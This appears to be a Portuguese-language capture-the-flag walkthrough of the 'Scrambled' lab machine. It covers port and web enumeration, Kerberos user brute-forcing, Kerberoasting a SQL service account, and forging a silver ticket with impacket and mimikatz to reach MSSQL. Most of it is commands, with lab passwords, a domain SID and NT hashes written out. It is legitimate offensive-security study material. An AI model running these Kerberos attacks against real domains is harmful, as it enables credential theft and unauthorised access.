 # Scrambled

```
sudo nmap_enum 10.10.11.168 | tee nmap_output.txt
```

![qownnotes-media-UTNsLs](../../media/qownnotes-media-UTNsLs.png)

```
sudo nmap -sU -p 53,161,111,137,139,500,2049 -Pn 10.10.11.168 | tee nmap_udp_output.txt
```

![qownnotes-media-nDyJRj](../../media/qownnotes-media-nDyJRj.png)

```
sudo nmap -p- -Pn -T5 -n 10.10.11.168 | tee nmap_fullportstcp_output.txt

gobuster dir -u http://10.10.11.168 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -k -t 16 -o "tcp_port_protocol_gobuster.txt"

gobuster dir -u http://10.10.11.168 -w /usr/share/seclists/Discovery/Web-Content/common.txt -x "txt,html,php,asp,aspx,jsp" -k -t 16 -o "tcp_port_protocol_ext_gobuster.txt"
```

![qownnotes-media-QHNHun](../../media/qownnotes-media-QHNHun.png)

```
nikto -host http://10.10.11.168 -T x 6 | tee nikto_output.txt
```

![qownnotes-media-XXiCsY](../../media/qownnotes-media-XXiCsY.png)

```
kerbrute userenum -d scrm.local --dc 10.10.11.168 users.txt


kerbrute bruteuser -d scrm.local --dc 10.10.11.168 /usr/share/wordlists/rockyou.txt ksimpson
```

![qownnotes-media-cFfNQy](../../media/qownnotes-media-cFfNQy.png)

Aqui eu ja teria acertado, se eu tivesse testado o mesmo user e o mesmo password, conforme eu havia feito com o crackmapexec, porém, essa autenticação é feita via NTLM. Por isso não está funcional, veja:

![qownnotes-media-OBNHgx](../../media/qownnotes-media-OBNHgx.png)

![qownnotes-media-CkGZHT](../../media/qownnotes-media-CkGZHT.png)

Com base nisso, dá pra testar novamente aquela mesma senha e usuário descoberta anteriormente:

```
kerbrute bruteuser -d scrm.local --dc 10.10.11.168 /usr/share/wordlists/rockyou.txt ksimpson
```

![qownnotes-media-uiCGbD](../../media/qownnotes-media-uiCGbD.png)

Então a autenticação tem que ocorrer via kerberos. Desta forma:

```
impacket-smbclient -k 'scrm.local/ksimpson:ksimpson@dc1.scrm.local' -dc-ip 10.10.11.168
```

Vide que o nome do servidor deve eestar correto, caso contrário ele não consegue autenticação por meio da bas Kerberos:

```
impacket-smbclient -k 'scrm.local/ksimpson:ksimpson@scrm.local' -dc-ip 10.10.11.168
```

![qownnotes-media-CeWXoh](../../media/qownnotes-media-CeWXoh.png)

## Exploitation

Aqui não foi necessário conduzir os testes anteriores, mas também não deixa de ser válido. Próximo passo aqui foi obter o hash de senha do serviço sqlsvc com os seguintes comandos:

Vide que o passo a passo seria

1 - Obter o ticket kerberos do usuário ksimpson:

```
impacket-getTGT scrm.local/ksimpson:ksimpson -dc-ip 10.10.11.168
```

![qownnotes-media-QKUaMx](../../media/qownnotes-media-QKUaMx.png)

2 - Carregar esse ticket na máquina Linux para conseguir extrair o hash do SPN:

```
export KRB5CCNAME=ksimpson.ccache
klist
```

![qownnotes-media-vfxsbO](../../media/qownnotes-media-vfxsbO.png)

3 - Obter o hash de senha do SPN sqlsvc

```
impacket-GetUserSPNs -request scrm.local/ksimpson:ksimpson -k -dc-host dc1.scrm.local
#ou
impacket-GetUserSPNs -request -k -no-pass -dc-host dc1.scrm.local scrm.local/ksimpson
```

![qownnotes-media-MpPoDK](../../media/qownnotes-media-MpPoDK.png)

4 - Basta copiar esse hash e colar em um arquivo para quebrarmos com o john

![qownnotes-media-OKsOXL](../../media/qownnotes-media-OKsOXL.png)

Dado que a máquina está com o NTLM desabilitado, podemos ver que, quando a gente gera o ticket para o serviço sqlsvc, ele não loga na máquina:

```
impacket-getTGT scrm.local/sqlsvc:Pegasus60 -dc-ip 10.10.11.168
export KRB5CCNAME=sqlsvc.ccache
impacket-mssqlclient -k -no-pass scrm.local/sqlsvc@dc1.scrm.local
```

![qownnotes-media-dnmhzj](../../media/qownnotes-media-dnmhzj.png)

Neste caso, devemos considerar fazer o silver ticket para conseguir gerar nossas próprias permissões no serviço:

Para isso precisamos do SID do domínio, NTHASH da senha do serviço e o SPN:

1 - Para obter o SID, podemos executar o seguinte comando:

```
impacket-getPac scrm.local/ksimpson:ksimpson -targetUser ksimpson
```

![qownnotes-media-DLEMIA](../../media/qownnotes-media-DLEMIA.png)

2 - Para obter o nthash da senha do spn basta executar o seguinte comando:

```
iconv -f ASCII -t UTF-16LE <(printf "Pegasus60") | openssl dgst -md4
```

ou

```
python -c 'import hashlib,binascii; print(binascii.hexlify(hashlib.new("md4", "Pegasus60".encode("utf-16le")).digest()))'
```

3 - Agora já temos todos os dados necessários, basta realizarmos o silver ticket:

```
impacket-ticketer -spn 'MSSQLSvc/dc1.scrm.local:1433' -domain scrm.local -domain-sid S-1-5-21-2743207045-1827831105-2542523200 -nthash b999a16500b87d17ec7f2e2a68778f05 -dc-ip dc1.scrm.local adm
```

![qownnotes-media-FRPLDN](../../media/qownnotes-media-FRPLDN.png)

![qownnotes-media-RyziOV](../../media/qownnotes-media-RyziOV.png)

Agora conseguimos acessar o servidor mssql server com a autenticação via Kerberos:

```
export KRB5CCNAME=adm.ccache
klist
impacket-mssqlclient -k -no-pass dc1.scrm.local
```

![qownnotes-media-OWKENF](../../media/qownnotes-media-OWKENF.png)

Depois disso, basicamente é habilitar a execução de comando no banco seguindo o tutorial que consta nessa nota

Vamos tentar de um jeito diferente esse cara aqui:

```
kerberos::golden /user:admin /domain:scrm.local /sid:S-1-5-21-2743207045-1827831105-2542523200 /target:DC1.scrm.local /service:cifs /rc4:a4ce9e577c1298c759340f09b3546950 /ticket:c:\temp\test_cifs.kirbi
```

![qownnotes-media-ypkIkw](../../media/qownnotes-media-ypkIkw.png)
